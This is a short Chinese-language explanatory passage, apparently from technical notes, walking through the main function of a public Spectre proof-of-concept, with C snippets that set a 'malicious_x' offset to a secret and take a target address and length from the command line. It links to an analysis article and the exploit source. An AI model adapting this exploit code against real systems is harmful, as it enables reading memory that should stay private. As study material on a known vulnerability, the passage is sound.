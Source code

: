 ## 主函数

```c
size_t malicious_x = (size_t)(secret - (char *)array1); /* default for malicious_x */
```
内存中数据布局是array1，一些其他字节，之后是secret。offset = secret - array1

```c
if (argc == 3)
{
    sscanf_s(argv[1], "%p", (void * *)(&malicious_x));
    malicious_x -= (size_t)array1; /* Convert input value into a pointer */
    sscanf_s(argv[2], "%d", &len);
    printf("Trying malicious_x = %p, len = %d\n", (void *)malicious_x, len);
}
```
如果带参数运行，把第一个参数当成指针读入malicious_x  
带参数运行时，第一个参数是想读取的地址，第二个参数是读多少个字节

## 参考资料

1、[分析文章](https://www.fortinet.com/blog/threat-research/into-the-implementation-of-spectre)  
2、[代码](https://github.com/Eugnis/spectre-attack/blob/master/Source.c)
